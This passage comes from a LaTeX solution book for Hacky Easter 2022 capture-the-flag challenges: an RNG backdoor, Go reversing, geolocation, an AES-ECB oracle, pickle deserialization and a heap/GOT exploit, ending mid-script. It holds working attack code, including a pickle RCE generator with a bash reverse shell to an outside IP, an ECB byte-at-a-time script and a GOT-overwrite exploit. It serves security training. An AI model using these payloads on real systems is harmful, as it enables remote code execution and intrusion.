            if (self.rng.next() % 2 == bet):
                self.balance += 1
            else:
                self.balance -= 1
                if (self.balance == 0):
                    print("You are broke... play again")
                    exit()
            print(f"Your current balance: {self.balance}")
        else:
            print("Invalid bet option, use either 0 or 1")
            
    def buy_flag(self):
        if (self.balance >= 1337):
           print("here is your flag!")
            exit(0)
        else:
            print("No flag for the poor. Gamble more")

def main():
    rng = RNG()
    casino = Casino(rng)

    print("Welcome to the Casino")
    print(f"Your id is {rng.next()}")
    print("What would you like to do?")
    print("(p)lay and win some money")
    print("(b)uy the flag")

    while (True):
        print("> ", end='')
        option = input()

        if (not option in ["b", "p"]):
            print("Unknown option, use 'b' or 'p'")
        elif (option == "b"):
            casino.buy_flag()
        elif (option == "p"):
            casino.play()
\end{minted}
}

From the true value $R Q$, only eight bits have been destroyed and so we can build up a collection of 256 possible $R Q$, calculate $R P$ and derive the internal state for the corresponding rng.  Then start betting and observe which rngs predict the outcome correctly until only one rng is left.  Now we have the state identified correctly and can predict the outcome of all future rolls.  Start betting until we have enough money to buy the flag.  To decrypt the flag we have again to know the rng, but this is straigtforward and can be implemented in sage:

{\small
\begin{minted}{python}
def build_candidates(r):
    rng = RNG()
    e = 1337
    candidates = []
    for i in range(256):
        try:
            qr = rng.curve.lift_x(r + i)
            pr = (qr*e)[0].lift()
            candidates.append(RNG(pr))
        except ValueError:
            pass

    return candidates

def purge(rngs, bit):
    retVal = []
    for r in rngs:
        if r.next() % 2 == bit:
            retVal.append(r)
    return retVal

def play(io, bit, money):
    io.read_until(b'> ')
    io.write(b'p\n')
    io.write(str(bit).encode('ascii')+b'\n')
    
    io.read_until(b'balance: ')
    m = int(io.read_until(b'\n'))
    if m > money:
        return bit, m
    else:
        if bit == 1:
            return 0, m
        else:
            return 1, m

def buy_flag(io, rng):
    io.read_until(b'> ')
    io.write(b'b\n')
    flag_enc = io.read_until(b'\n')[:-1].decode('ascii')
    print(flag_enc)
    key = SHA256.new(str(rng.next()).encode('ascii')).digest()
    cipher = AES.new(key, AES.MODE_ECB)
    flag = cipher.decrypt(bytes.fromhex(flag_enc))
    print("here is your flag!")
    if ord(flag[-1:]) < 16:
        flag = flag[:-ord(flag[-1:])]
    print(f'{flag}')


def solve():
    with Telnet("46.101.107.117","2212") as io:
        io.read_until(b'Your id is')
        r = Integer(io.read_until(b'\n')) * 256
        candidates = build_candidates(r)

        money = 10
        while len(candidates) > 1:
            print(len(candidates))
            bit, money = play(io, 1, money)
            candidates = purge(candidates, bit)

        print('now the state is known')

        rng = candidates[0]
        while money < 1337:
            bit = rng.next() % 2
            bit2, money = play(io, bit, money)
            assert(bit == bit2)
            if money % 100 == 0:
                print(money)
        print(money)
        buy_flag(io, rng)

if __name__ == '__main__':
    solve()
\end{minted}
}

Compared to the server code, the only difference is that the RNG can be instantiated with an explicit state, not a random state.  Then the script runs to completion and prints the flag.

\noindent\verb+he2022{C4S1N0_B4CKD00R_ST0NK5}+.

% !TeX root = ../solution.tex

\hypertarget{he22.32}{%
\chapter{[HE22.32] Go For Gold!}\label{he22.32}}

\begin{marginfigure}
	
\includegraphics[width=49mm]{level7/challenge32.jpg}
\end{marginfigure}
\section{Intro}
Go for Gold!

File: \verb+gold.zip+


\section{Solution}\label{hv22.32solution}

The file given is a Linux executable, written in go and not very ammenable to reverse engineering the source code using Ghidra.  It becomes clear that
\begin{itemize}
\item a password of length 28 is expected
\item a mixing stage is used (maschadar).  Here, we have a simple shuffling.
\item a replacement stage is used (remplazzar).  In this stage some parts of the input are changed in place.
\item finally the result is compared with a constant string
\item if it matches, the original code is the flag, sandwiched between \verb+he2022{+ and \verb+}+
\end{itemize}

After many hours trying to reconstruct the go code, simple breakpoints in gdb lead to the solution:
\begin{itemize}
\item Using a breakpoint before the return of \verb+maschadar+ and an input of \verb+abcedfghijklmnopqrstuvwxyz01+ yielded the result of the function as \verb+ghbcanopqrstuvwxyz01defijklm+.  This is a simple shuffling of the input and can be re-created as a map.  More importantly, it can also be reversed.
\item Using the same technique, the output of \verb+remplazzar+ can be obtained. The ASCII codes for the are changed, and from a known input, the differences can be calculated.  Again, this function can be inverted.
\item Finally, the target string in \verb+verifigtar+ can also be obtained.
\end{itemize}

The addresses of the break points can be obtained from Ghidra, and so with all these information we can write a short python script to print the flag \verb+he2022{hewhohasthegoldmakestherules}+
{\small
\begin{minted}{python}
def maschadar(code, invert = False):
    input = 'abcdefghijklmnopqrstuvwxyz01'
    outpt = 'ghbcanopqrstuvwxyz01defijklm'

    map = {}
    for c in input:
        i = input.index(c)
        j = outpt.index(c)
        if invert:
            map[j] = i
        else:
            map[i] = j

    res = list(' ' * len(input))
    for i in range(len(code)):
        res[map[i]] = code[i]
    return ''.join(res)


def verifitgar(code, scrambled):
    var_48 = "aug{"
    var_38 = "mepdpeuv"
    var_28 = "isvohxhqjx"
    var_18 = "fhr"

    rax_1 = var_48 + 'l' + var_38 + 'l' + var_28 + 'l' + var_18
    if scrambled != rax_1:
        print("Sorry, no.")
    else:
        print("Congrats, the flag is: he2022{" + code + '}')

def remplazzar(code, invert = False):
    input  = 'ghbcanopqrstuvwxyz01defijklm'
    output = 'gjdgeopstwsvwz{yz}36dghmnlmp'

    diff = []
    for i in range(len(input)):
        diff.append(ord(input[i]) - ord(output[i]))

    res = ''
    for i in range(len(code)):
        if invert:
            res += chr(ord(code[i]) + diff[i])
        else:
            res += chr(ord(code[i]) - diff[i])
    
    return res

if __name__ == '__main__':
    target = 'aug{lmepdpeuvlisvohxhqjxlfhr'
    tmp = remplazzar(target, True)
    print(tmp)
    code = maschadar(tmp, True)
    print(code)
    verifitgar(code, remplazzar(maschadar(code)))

\end{minted}
}




	










% !TeX root = ../solution.tex

\hypertarget{he22.33}{%
\chapter{[HE22.33] City Trip 2}\label{he22.33}}

\begin{marginfigure}
	
\includegraphics[width=49mm]{level7/challenge33.jpg}
\end{marginfigure}
\section{Intro}
Later that year, I was travelling again. Find out where I shot this picture!
This time, I want GPS coordinates.

\noindent {\NotoEmoji 🚩} Flag
\begin{itemize}
\item GPS coordinates, rounded to three decimals
\item  , as separator
\item  . as decimal point
\item  example:
\begin{itemize}
\item  40°46'30.3"N 73°57'59.8"W
\item  40.775082, -73.966599
\item  \verb+he2022{40.775,-73.967}+
\end{itemize}	
\end{itemize}	

\begin{marginfigure}
	
\includegraphics[width=49mm]{level7/citytrip2.jpg}
\end{marginfigure}



\section{Solution}\label{hv22.33solution}

\begin{marginfigure}
	\includegraphics[width=49mm]{level7/street_sign.png}
\end{marginfigure}


We are given a photograph of a street corner.  Some things come out at once:
\begin{itemize}
\item the photo is taken in an English-speaking area
\item the license plates on the cars look European and not North American
\item the cars seem to drive on the left side of the road
\item there are tram-lines and a street sign indicating a speed limit for trams
	of 20mph
\item there are two signs on a dilapedated building ``for sale'' and ``to let''
	with telephone numbers showing an area code for Greater Manchester
\end{itemize}
All of these clues indicate that the street corner sought is somewhere in
Manchester, UK.  Check google maps in 2D mode where the tramlines are indicated
on the map and do a visual search for a place that looks like what we expect to
find from the photograph (tramlines on the street and on a slight corner), take
a look at the street view to verify, and we find the co-ordinates to get the
flag: \verb+he2022{53.482,-2.216}+





	










% !TeX root = ../solution.tex

\hypertarget{he22.34}{%
\chapter{[HE22.34] AES Burgers}\label{he22.34}}

\begin{marginfigure}
	\includegraphics[width=49mm]{level8/challenge34.jpg}
\end{marginfigure}
\section{Intro}
Welcome to AES Burgers - where the patty is tatty™ !

\noindent Connect to our server, and place your order!

\noindent \verb+nc 46.101.107.117 2207+

\noindent File: \verb+aesburgers.py+


\section{Solution}\label{hv22.34solution}

The program \verb+aesburgers.py+ supplied does one thing: it asks for a bun and a number of patties, builds a burger and then encrypts the burger with AES in electronic cookbook mode (ECB).  The relevant two functions are:

{\small
\begin{minted}{python}
def encrypt(plain):
    cipher = AES.new(key.encode(), AES.MODE_ECB)
    plain += b' ' * ((16 - (len(plain) % 16)) % 16)
    enc = cipher.encrypt(plain)
    return ''.join('%02x' % b for b in enc)

def makeBurger(bun, patties):
    burger = b''
    burger += bun[::-1] # the bottom bun, flipped
    burger += patties * flag # the patties
    burger += bun # the top bun
    return burger
\end{minted}
}

\noindent
Since the burger is encrypted using ECB, we can craft a known plaintext attack:
In ECB, a given 16-byte-aligned 16-byte-block is always encrypted to the same
result.  If we can construct a bun in such a way that the reversed bun
corresponds to a given block of the burger, then we can brute force the flag.

To illustrate the principle, assume a bun \verb+0123456789ABCDEF+ and assume
that the number of patties times the flag-length is $n\times 16 + 1$.  Then the 
constructed burger looks like
\noindent
\begin{verbatim}
FEDCBA9876543210
he2022{...
...
}0123456789ABCDE
F
\end{verbatim}
\noindent
Using the bun, we have full control over the first 16-bytes of the burger and we know 15
out of the second to last 16-byte block.  The one, unknown byte is determined by the flag. 

If we are now choosing a bun like \verb+AAAAAAAAAAAAAAA.+, then the 
first block becomes \verb+.AAAAAAAAAAAAAAA+, the second last will be
\verb+}AAAAAAAAAAAAAAA+.  This allows us to try all possible buns by 
replacing the \verb+.+ with any printable character and check if the encrypted
blocks match.  If they match, we know the last character of the flag (which we 
assume to be \verb+}+).  Once we have one character, we try to brute force
the next character by changing the number of patties and constructing a new 
bun \verb+AAAAAAAAAAAAAA}.+

The first step is to figure out the number of characters in the flag.  Try all
allowed values for the number of patties, observe the length of the returned, 
encrypted burger and solve for the smallest possible length of the flag.  Can 
be done by thinking or just by brute forcing, and find 35 as flag length.

With this we have all information to start the brute force attack.  Once 16
characters have been found, the third to last block has to be considered and
the bun is just the reversed 16 bytes of the flag considered.

{\small
\begin{minted}{python}
from pwn import *
IP = '46.101.107.117'
PORT = 2207

def patties(flag_len, offset):
    for n in range(1,25):
        if (n*flag_len)%16 == offset%16:
            return n
    print(f'[x] cannot find number of patties')
    exit(-1)


p = remote(IP, PORT)

bun = b'1'*16
flag_len = 35
flag = ''

for j in range(1,flag_len+1):
    n = patties(flag_len, j)
    print(f'[ ] need {n} patties for char {j}')

    for i in range(33,127):
        bun = chr(i) + flag
        if len(bun) < 16:
            bun += (16-j)*'a'
        else:
            bun = bun[:16]
        bun = bun[::-1].encode()
        p.recvuntil(b'How many patties: ')
        p.sendline(bytes(str(n), encoding='ASCII'))

        p.recvuntil(b'Which bun? ')
        p.sendline(bun)
        p.recvuntil(b"Heres your order, enjoy!\n")
        burger = p.recvuntil(b'\n')
        cnub = burger[:32]
        shift = ((j-1)//16)*32
        cbunf = burger[-65-shift:-33-shift]
        if cnub == cbunf:
            flag = chr(i) + flag
            print(f'[+] found {j}th character ', chr(i), ' flag: ', flag)
            break
p.close()
\end{minted}
}
Flag: \verb+he2022{w3_luv_junk_f00d_s0m3t1m3s!}+





	










% !TeX root = ../solution.tex

\hypertarget{he22.35}{%
\chapter{%
	\texorpdfstring{[HE22.35] The CTF Oracle {\NotoEmoji🔮}}%
		{[HE22.35] The CTF Oracle}}\label{he22.35}}

\begin{marginfigure}
	\includegraphics[width=49mm]{level8/challenge35.jpg}
\end{marginfigure}
\section{Intro}
The oracle is using \textbf{models} and algorithms to predict how you will
perform in CTFs in the future! Please choose a CTF and the total points you
made in the last three years.

\noindent \url{http://46.101.107.117:2206}

\noindent Note: The service is restarted every hour at x:00.

\section{Solution}\label{hv22.35solution}

\begin{fullwidth}
First some intelligence gathered using Postman and the development mode of the browser:

\begin{itemize}
\item the server is Gunicorn, so we are probably dealing with python
\item we can upload a profile picture that is then stored in \verb+/tmp/...+
\item the oracle itself has two inputs in the POST method: the CTF and the
	scores
\item entering more than three scores returns just predicted values for all
	submitted values
\item changing the CTF to another value, \emph{e.g.} \texttt{HackyEaster}, triggers a
	message about {\small\texttt{... cannot load file ./model/HackyEaster}}
\item injecting wildcards etc. do not seem to have an effect
\item we can traverse the directory tree: {\small\texttt{../../../tmp/../app/models/HE}}
	does get us the proper HE model
\end{itemize}

\noindent 
Reading up on the way to store ML-models, it became likely that we can store
pickled models that are then loaded.  The plan of attack is thus to create a
pickled payload stored as \verb+rce.png+, store this file as a profile picture,
and load this file as the model.  Then the server will load the model, unpickle
it and execute our payload.

Creating a first remote shell using a simple netcat listener didn't give a
shell, but at least a new error message: {\small\texttt{Failed to make prediction}}.
This means that the pickle was loaded successfully, but did not continue
running for whatever reason.  Later it became clear that \verb+nc+ is not
available on the server.  

After trying many different routes to get something to work (a python shell, a
listener, ...) finally a very simpe reverse shell using \verb+bash+ worked
beautifully in connecting via ngrok -- but to do this, I first had to learn
about ngrok.  The final scrip to create the payload looks like this: 
\end{fullwidth}

\newpage
{\small
\begin{minted}{python}
#!/usr/bin/python
#
# Pickle deserialization RCE payload.
# To be invoked with command to execute at it's first parameter.
# Otherwise, the default one will be used.
#

import pickle
import sys
DEFAULT_COMMAND="/bin/bash -c '/bin/sh -i >& /dev/tcp/3.68.56.232/10421 0>&1'"
COMMAND = sys.argv[1] if len(sys.argv) > 1 else DEFAULT_COMMAND

class PickleRce(object):
    def __reduce__(self):
        import os
        return (os.system,(COMMAND,))

with open('rce.png', 'wb') as outF:
    outF.write(pickle.dumps(PickleRce()))
\end{minted}
}

\noindent\verb+cd+ up one directory from where the shell spawns, we find the file \verb+flag.txt+ with the contents \verb+he2022{ef453cc6-46eb-4c86-87df-cf34a6d2e3d8}+

\subsection{Notes and links}

Thanks to otaku for a nice challenge and battlemonger for helpful hints.

\noindent\href{http://www.onelinerizer.com/}{http://www.onelinerizer.com/} -- a tool to turn every python script into a one-liner

\noindent\href{https://ngrok.com/}{ngrok} -- a tunnel to a publicly reachable address for the reverse shell

\noindent\href{https://metahackers.pro/reverse-shells-101/}{Reverse shells 101}


% !TeX root = ../solution.tex

\hypertarget{he22.36}{%
\chapter{[HE22.36] Back to the Roots}\label{he22.36}}

\begin{marginfigure}
	\includegraphics[width=49mm]{level8/challenge36.jpg}
\end{marginfigure}
\section{Intro}
Reversing is considered hard so we thought some old school stuff might be a
gentle start?

This one is only for a simple 8 Bit, 16 MHz and 2KB RAM machine, so how hard
can it be?

Remember: there is always a hard and a simple way.... choose your path!

File: \verb+backtotheroots.zip+

\subsection{Hint}
No hardware is needed for this challenge - though it might be helpful.

\section{Solution}\label{hv22.36solution}

Inspect the binary first:
\begin{itemize}
\item atmega328p
\item openssl aes-128-ecb -d -in secret.txt.enc
\item rockyou.txt
\item Arduino
\end{itemize}

Since I had an Arduino board lying around, load the binary onto it and run it.
It prints a message to the serial port \texttt{Give me your best shot!} and then
sits and waits.  Inspecting the binary in Ghidra a bit more, we see that three
buttons are checked (button2, button4, button3).  Shorting pin 2 triggers a
counter that ends in \texttt{Flag wiped...}.  

Shorting the pins 2, 4, and 3 in short succession prints the flag
\verb+he2022{0ld_Sko0l_CPu$_st1ll_r0cK!}+.

I guess that this was the easy way...

% !TeX root = ../solution.tex

\hypertarget{he22.37}{%
\chapter{[HE22.37] Egg-O}\label{he22.37}}

\begin{marginfigure}
	\includegraphics[width=49mm]{level8/challenge37.jpg}
\end{marginfigure}
\section{Intro}
Egg or chicken, what was first?

\verb+nc 46.101.107.117 2208+

Note: The service is restarted every hour at x:00.

File: \verb+eggo.zip+

\subsection{Hint}
unlink

\section{Solution}\label{hv22.37solution}

The zip-file contains an executable and a copy of the \verb+libc+.  Inspect the
binary first with Ghidra and notice:
\begin{itemize}
\item Linux application
\item allocation of memory for the eggs happens in one function, but the
	content of the egg is entered in another function with \verb+gets+.
\item there is an error in the program to keep track of the number of eggs --
	it is never reset
\item when the appropriate egg is to be selected, then the input is only
	checked for an upper bound, negative eggs are allowed.
\item the hint \verb+unlink+ points towards a heap exploit
\end{itemize}

\noindent First a heap based exploit was tried using pwntools, but led nowhere.
Then Engy pointed out that the eggs could be negative and so a direct
manipulation of all memory becomes possible.  The attack in the end works like
this:

\begin{enumerate}
\item try to find a way to write to the GOT to redirect a function to leak
	addresses from \verb+libc+.  The egg at index $-1855$ does this, it
	points to \verb+got["strlen'']+.  \verb+strlen+ is called as part of
	the weigh function.
\item redirect \verb+strlen+ to call \verb+printf+ instead.  Every call of
	\verb+weigh_egg+ now prints the content of the egg pointed to.
\item leak the addresses of \verb+printf+ and \verb+malloc+.  In priciple one
	would be enough, but having both gives a check that we are really
	dealing with the \verb+libc+ provided.
\item now that we know the real addresses, we can have \verb+strlen+ point to a
	gadget.  The gadgets can be found using
	\href{https://github.com/david942j/one_gadget}{one\_gadget}.  There are
	actually three possibilites.
\item redirect \verb+strlen+ to one of the gadgets and weigh the egg.  If we
	get a SIGSEV, try the next one, otherwise enjoy the gadget and use the
	shell.
\end{enumerate}

In the end the last gadget worked and we can list the remote directory, find a
file called \verb+eggo.flag+ with the flag\\
\noindent
\verb+he2022{wh4t_w4s_f1rst_th3_ch1ck3n_0r_th3_3gg?}+.

\begin{marginfigure}
	\includegraphics[width=49mm]{level8/egg37.png}
\end{marginfigure}

\subsection{Notes}

\href{https://gist.github.com/anvbis/64907e4f90974c4bdd930baeb705dedf}{Pwntools cheat sheet}\\
\noindent
\href{https://github.com/Dvd848/CTFs/blob/master/2019_picoCTF/Heap_overflow.md}{Heap overflow writeup}

\subsection{Script}
{\small
\begin{minted}{python}
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template --host 46.101.107.117 --port 2208 ./eggo
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF('./eggo')
libc = ELF('./libc-2.33.so')

# gadgets from running one_gadget ./libc-2.33.so
gadgets = [0xcb5ca, 0xcb5cd, 0xcb5d0]

host = args.HOST or '46.101.107.117'
port = int(args.PORT or 2208)

def start_local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)
 
def start_remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return start_local(argv, *a, **kw)
    else:
        return start_remote(argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:    Partial RELRO
# Stack:    Canary found
# NX:       NX enabled
# PIE:      No PIE (0x400000)
io = start()

# use a negative egg to re-direct strlen to printf by writing to the GOT
address_of_printf_got = 0x400730  # at 0x400730 the value is 0x404048 
address_of_strlen_got = 0x4006e8
address_of_malloc_got = 0x400760

diff = (address_of_strlen_got - exe.sym.eggs) // 8
printf_plt = 0x4010a6

log.info(f'printf_plt: {hex(printf_plt)}\n')
log.info(f'printf at plt + 6: {hex(exe.plt.printf+6)}\n')

log.info(f'use egg {diff}')
io.sendline(b'4\n%d'%diff)
io.sendline(p64(printf_plt))
print(io.recvline())

# leak the address of printf
log.info(f'address of eggs: {hex(exe.sym.eggs)}')
diff = (address_of_printf_got - exe.sym.eggs) // 8 
io.recvuntil(b'> ')
log.info('reading the address from printf@plt')
io.sendline(b'3\n%d'%diff)
addr = io.recvn(6) + b'\x00\x00'
log.info(f"received address {hex(u64(addr))}")
addr_printf = u64(addr)

# now leak address of malloc
diff = (address_of_malloc_got - exe.sym.eggs) // 8 
log.info(f'malloc at : {hex(exe.plt.malloc)}\n')
io.recvuntil(b'> ')
